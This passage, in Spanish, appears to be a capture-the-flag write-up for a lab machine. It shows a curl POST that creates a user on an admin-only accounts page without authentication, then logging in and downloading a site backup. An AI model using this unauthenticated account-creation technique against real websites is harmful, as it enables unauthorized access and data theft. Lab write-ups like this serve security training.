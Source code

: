 ```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl -s -X POST http://10.10.11.104/accounts.php -d "username=usuario123&password=password123&confirm=password123&submit=" | html2text

    * Home
    * ACCOUNTS
          o CREATE_ACCOUNT
    * FILES
    * MANAGEMENT_MENU
          o WEBSITE_STATUS
          o LOG_DATA
    * LOG_OUT

***** Add New Account *****
Create new user.
ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!
Usernames and passwords must be between 5 and 32 characters!
Success! User was added!
 [username            ]
 [********************]
 [********************]
CREATE USER
Created_by_m4lwhere
```

| Parámetro | Acción |
|:---------:|:------:|
| `-s, --silent` | Parámetro utilizado para silenciar errores y barras de progreso |
| `-d, --data` | Este parámetro sirve para enviar datos en peticiones POST |

Cada parámetro tiene que ir separado del otro con un **ampersand** (&).

¡Hemos tenido éxito! Probemos ahora a iniciar sesión.

![image](https://user-images.githubusercontent.com/67548295/147691897-88bdc1f8-8b55-4ff9-ade8-c0955a0f09c4.png)

Inicio de sesión correcto :)

---

Investigando las funciones del sitio web estando autenticado, me encuentro con un supuesto **backup** de la web:

![image](https://user-images.githubusercontent.com/67548295/147692135-6f38f02e-f5b9-42e5-8581-5cfe81a1ac91.png)

Al descargarlo y descomprimirlo en mi equípo veo que están todos archivos de los recursos disponibles en el servidor web:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/siteBackup]
└──╼ $ ls -l
total 60
-rw-r--r-- 1 z3r0byte z3r0byte 5689 jun 12  2021 accounts.php
-rw-r--r-- 1 z3r0byte z3r0byte  208 jun 12  2021 config.php
-rw-r--r-- 1 z3r0byte z3r0byte 1562 jun  9  2021 download.php
-rw-r--r-- 1 z3r0byte z3r0byte 1191 jun 12  2021 file_logs.php
-rw-r--r-- 1 z3r0byte z3r0byte 6107 jun  9  2021 files.php
-rw-r--r-- 1 z3r0byte z3r0byte  217 jun  3  2021 footer.php
-rw-r--r-- 1 z3r0byte z3r0byte 1012 jun  6  2021 header.php
-rw-r--r-- 1 z3r0byte z3r0byte  551 jun  6  2021 index.php
-rw-r--r-- 1 z3r0byte z3r0byte 2967 jun 12  2021 login.php
-rw-r--r-- 1 z3r0byte z3r0byte  190 jun  8  2021 logout.php
-rw-r--r-- 1 z3r0byte z3r0byte 1174 jun  9  2021 logs.php
-rw-r--r-- 1 z3r0byte z3r0byte 1279 jun  5  2021 nav.php
-rw-r--r-- 1 z3r0byte z3r0byte 1900 jun  9  2021 status.php
```